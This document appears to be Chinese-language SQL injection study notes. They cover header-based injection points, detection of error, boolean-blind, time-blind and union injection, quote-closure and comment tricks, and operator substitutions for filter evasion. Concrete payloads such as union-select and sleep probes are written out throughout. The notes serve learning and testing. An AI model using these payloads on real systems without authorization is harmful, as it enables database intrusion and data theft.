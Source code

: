 很明显的这个接口，页面url，输入框的传参参数是进入了数据库的。或http数据包中数据参数是进入了数据库的。
```
**Header注入**
User Agent 中文名为用户代理，简称 UA，它是一个特殊字符串头，使得服务器能够识别 客户使用的操作系统及版本、CPU 类型、浏览器及版本、浏览器渲染引擎、浏览器语言、 浏览器插件等。
有些网站为了统计来访为手机还是PC，会存入数据库。
**Cookie注入**
一般是因为后台程序，读取了cookie中的数据，并带入到数据库中执行了
**X-Forwarded-For**
是客户端通过HTTP代理或者负载均衡器连接到web服务端获取源IP地址的一个标准（通常一些网站的防注入功能会记录请求端真实IP地址并写入数据库或某文件，通过修改XXF 头可以实现伪造IP）
**Referer**
当浏览器向web服务器发送请求的时候，一般会带上 Referer，告诉服务器该网页是从哪个页面链接过来的，服务器因此可以获得一些信息用 于处理
Host
有些服务器无论请求什么Host，都有一个默认的Host站点响应时。
```

## **测试是否有注入**
检测报错注入:
```
加\ 转义'
?id=1\    有原生报错回显

加'
?id=1' 有原生报错回显，则存在报错注入，且为 ' 闭合 或 ')闭合。

加"
?id=1"  有原生报错回显，且为 " 闭合 或 ")闭合。

?id = 1 and 1=2 有原生报错回显。
```

检测布尔盲注：
```
?id = 1 and 1=2  报错不显示正常数据，或无原生报错回显。


?id=1' and 1=1 --+  不报错
?id=1" and 1=1 #  不报错
```
实际中少用1=1，防止waf：<https://xz.aliyun.com/t/8020?time__1311=n4%2BxuDgDBAeDqrgDlroGkzD8CDkYeDce4YupD&alichlgref=https%3A%2F%2Fcn.bing.com%2F>

检测时间盲注：
```
?id=1 and sleep(3) 三秒才返回。
```

检测联合注入：
有报错注入，有布尔注入，也可能有联合注入。
有回显，寻找注入点，判断闭合方式，判断列数，进行函数执行回显。
测试当前表的字段数
```
?id =1 ' order by 5 --+  //若到5报错，则此表有4个字段

?id = -1 ' union select 1,2,3,4 --+
?id = -1 union select 1,2,3,4
前报错，后替换回显1,2,3,4
```

^
## **闭合处理**
闭合的原理：
在网站当中存在用户可控制参数，又没有对这个进行严格过滤，导致用户可以用过同样的符号去结束前面的字符内容，执行后面的语句

常见的闭合方式：
* 数字类型(无闭合)
* 单引号 ’
* 双引号 ”
* 括号 ）
* 组合方式 ‘)  ")   '))   "))

闭合后需要用到的注释符去掉后面：
```
--+ --空格

'#'  单行注释,中间用 %23

多行还是用and 'a' = 'a

语句尾部不要也可以这样闭合
;%00
```




^
## **注入类型判断**
### 联合查询
```
页面有回显，可以通过联合查询获取数据
常见于select。

select * from sql_insertion where id =1  order by view_time limit 0,1;
A  B  from sql_insertion where id =C  order by D limit 0,E;
A B可以手工注入
C可以常规注入
D难注入
E难注入
```

### 报错注入
```
页面无直接回显，但是能回显报错信息，可以通过报错函数获取回显数据。
常见于select,insert,delete,update。
```

### 布尔盲注
```
sql错误报错不回显或不回显原生报错信息，可以通过布尔判断，分别sql语句有没有成功，从对数据库进行猜测
常见于select。
```
### 时间盲注
```
sql错误报错不回显或不回显原生报错信息，可以通过页面刷新时间，判断sql语句有没有成功，从对数据库进行猜测
常见于select,insert,delete,update。
```

^
## **过滤和逻辑运算符选择**
```
id = 1 and 1
id = 1 && 1

id = 1 or 1  有1则1 true
id = 1 || 1
id=1||0 
id=1||1 
如果 `||` 操作符的一边是非布尔值，数据库可能会尝试将其转换为布尔值，这可能导致不同的行为。


id=1^1
id=1^1^1
id=1|1
id=1&1
```
